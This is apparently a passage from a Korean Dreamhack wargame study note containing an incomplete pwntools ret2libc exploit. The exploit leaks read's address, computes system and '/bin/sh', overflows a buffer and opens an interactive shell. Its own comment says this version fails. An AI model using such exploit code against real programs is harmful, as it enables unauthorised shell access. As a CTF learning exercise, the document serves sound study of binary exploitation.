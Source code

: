 ```py
# 이렇게하면 ret이 섞여서 나와서 안됨

# first main

p.send(payload)

p.recvuntil(b'a'*0x40)
read = u32(p.recv(4))

system = read - read_system_offset
binsh = read - read_binsh_offset

# second main

payload = b'a'*0x40 + b'a'*0x8
payload += p32(system) + p32(pop) + p32(binsh)

p.send(payload)
p.interactive()
```

<br>

### 참고

<img width="829" alt="image" src="https://github.com/juhyeongkim527/Dreamhack-Study/assets/138116436/e8de9669-fdd0-4b78-b49b-b7e87783834a">